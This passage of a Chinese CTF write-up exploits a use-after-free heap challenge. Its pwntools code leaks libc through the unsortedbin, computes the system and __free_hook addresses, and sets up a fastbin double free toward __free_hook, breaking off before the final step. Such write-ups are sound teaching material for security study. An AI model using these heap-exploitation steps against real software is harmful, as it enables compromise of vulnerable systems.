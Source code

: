 2. delete函数，heap指针未清零，存在UAF漏洞：

   ![image-20240713123958476](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131239538.png)

3. 结合delete函数，明显存在UAF漏洞，拿到main_arena中的地址后，可以直接输出：

   ![image-20240713124100793](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131241859.png)

### 利用：

1. 先用0x90chunk填满tcache，再多申请一个0x90chunk，释放后进入unsortedbin，拿到main_arena中的地址，进而计算出基地址：

   ```python
   # 溢出进unsortedbin
   for i in range(8):
       add(0x80,i,b'a')
   for i in range(7):
       free(i)
   #隔开TOP chunk
   add(0x38,8,b'a')
   free(7)
   show(7)
   #泄漏main_arena中的地址
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   
   #计算__free_hook和system地址
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   ```

   ![image-20240713124652422](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131246642.png)

2. 然后，利用0x40chunk填满tcache后，进入fastbin进行double free，实现任意地址分配chunk：

   ```python
   # 溢出进unsortedbin
   for i in range(10):
       add(0x38,i,b'a')
   for i in range(9):
       free(i)
   # free(8)
   free(9)
   free(8)
   #在free_hook_addr-0x8处分配chunk
   payload = p64(free_hook_addr-0x8)
   for i in range(7):
       add(0x38,i,b'a')
   add(0x38,8,payload)
   ```
